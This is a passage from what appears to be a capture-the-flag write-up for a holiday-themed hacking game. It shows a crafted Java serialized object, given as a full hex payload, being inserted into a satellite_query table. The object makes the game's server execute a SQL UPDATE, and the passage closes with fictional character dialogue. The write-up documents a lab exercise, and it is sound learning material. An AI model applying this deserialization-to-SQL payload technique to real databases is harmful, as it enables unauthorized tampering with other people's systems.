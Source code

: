 Now we can compile it and get the bytes of the serialized object (we just need the [gson-2.10.1.jar](files/gson-2.10.1.jar) library).

```shell
$ java -classpath gson-2.10.1.jar main.java 
$ xxd -p SatelliteQueryFileFolderUtility-update.ser | tr -d '\n'
aced00057372001f536174656c6c697465517565727946696c65466f6c6465725574696c69747912d4f68d0eb392cb0200035a0007697351756572795a000869735570646174654c000f706174684f7253746174656d656e747400124c6a6176612f6c616e672f537472696e673b7870010174002a55504441544520706f696e74696e675f6d6f646520534554206e756d65726963616c5f6d6f64653d313b
```

If we insert the result into the `satellite_query` table, it will successfully execute and update the `pointing_mode`.

```sql
mysql> INSERT INTO satellite_query (object) VALUES (X'aced00057372001f536174656c6c697465517565727946696c65466f6c6465725574696c69747912d4f68d0eb392cb0200035a0007697351756572795a000869735570646174654c000f706174684f7253746174656d656e747400124c6a6176612f6c616e672f537472696e673b7870010174002a55504441544520706f696e74696e675f6d6f646520534554206e756d65726963616c5f6d6f64653d313b');
Query OK, 1 row affected (0.13 sec)

mysql> select * from satellite_query;
| jid | object  | results |
[...]
|   3 | 0xACED00057372001F536174656C6C697465517565727946696C65466F6C6465725574696C69747912D4F68D0EB392CB0200035A0007697351756572795A000869735570646174654C000F706174684F7253746174656D656E747400124C6A6176612F6C616E672F537472696E673B7870010174002A55504441544520706F696E74696E675F6D6F646520534554206E756D65726963616C5F6D6F64653D313B | SQL Update completed.|
3 rows in set (0.14 sec)

mysql> select * from pointing_mode;
+----+----------------+
| id | numerical_mode |
+----+----------------+
|  1 |              1 |
+----+----------------+
1 row in set (0.14 sec)
```

> **Wombley Cube (Zenith SGS)**:
*A... missile... aimed for Santa's sleigh? I had no idea...
I can't believe I was manipulated like this. I've been trained to recognize these kinds of tactics!
Santa should never have put the holiday season at risk like he did, but I didn't know Jack's true intentions.
I'll help you bring Jack to justice...
But my mission to ensure Santa never again compromises the holidays is still in progress.
It sounded like the satellite crashed. Based on the coordinates, looks like the crash site is right near Rudolph's Rest.
Use the door to the right to return to the resort lobby and see what happened!
Don't worry, I'll meet you there... trust me.*